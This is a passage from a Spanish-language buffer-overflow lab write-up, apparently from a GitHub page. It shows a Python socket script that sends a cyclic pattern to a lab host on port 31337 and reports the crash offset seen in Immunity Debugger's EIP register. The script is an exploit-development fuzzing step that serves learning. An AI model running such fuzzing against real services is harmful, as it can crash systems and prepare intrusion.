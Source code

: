Realizando ciertas modificaciones al código que se tenia anteriormente podemos ejecutar nuevamente

```python
from pwn import *
import sys
import socket
import signal

def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)
signal.signal(signal.SIGINT, crtl_C)
ip = "192.168.98.24"

port = 31337
timeout=5
string='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9'

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip, port))
		print("Fuzzing with {} bytes".format(len(string)))
		s.send(bytes(string + "\r\n", "latin-1"))
		s.recv(1024)
		s.close()
	except Exception as e:
		print(e)
		sys.exit(0)
```

Ahora en el `Immunity Debugger` en la dirección de EIP tenemos `39654138` , haciendo que el programa deje de funcionar.

![20231114235620.png](20231114235620.png)
